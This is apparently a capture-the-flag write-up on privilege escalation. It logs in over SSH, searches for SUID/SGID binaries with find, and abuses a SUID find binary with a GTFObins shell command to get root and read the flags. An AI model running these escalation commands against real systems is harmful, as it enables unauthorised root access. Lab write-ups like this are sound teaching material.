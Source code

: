 # Privilege Escalation

## \[+] Port 22 - SSH

### \[-] z...

We can login as the user with `ssh`:

```
$ ssh@$RHOSTS
```

And now we are able to read the flag in `/home/<user>/flag.txt`:

```
$ cat flag.txt
```

![fc40b6a0b78656145f8f72a3124ce355.png](/resources/5407ed16480f415baf7ab4c8e964f523.png)

### \[-] root

We can use the `find` command to search for any binaries with the [SUID bit](https://www.redhat.com/sysadmin/suid-sgid-sticky-bit) set:

```
$ find / -type f \( -perm -4000 -o -perm -2000 \) -exec ls -l {} \; 2>/dev/null
```

The `find` binary actually has the SUID bit set and we can use this to escalate our privileges to root:

![354c42ece08bf79d2a42e86f98ba0561.png](/resources/0137e70f8f0441d7b45efd4c47a17d61.png)

Checking [GTFObins](https://gtfobins.github.io/gtfobins/find/#suid) on how to exploit this:

From GTFObins, *"If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run sh -p, omit the -p argument on systems like Debian (<= Stretch) that allow the default sh shell to run with SUID privileges."*

So we just need to run the command:

`find . -exec /bin/sh -p \; -quit`

And we maintain root privileges:

![8d1eece2b0cef4e7b767247ee709c6c1.png](/resources/723192af2b5e496d934d7ad529173f17.png)

The final flag is in `/root/flag.txt`:

```
$ cat /root/flag.txt
```

![96b06de8690d7f81c648d26c43ce90d7.png](/resources/85f6dbadc5824b4da3b4a8fc66c615ac.png)
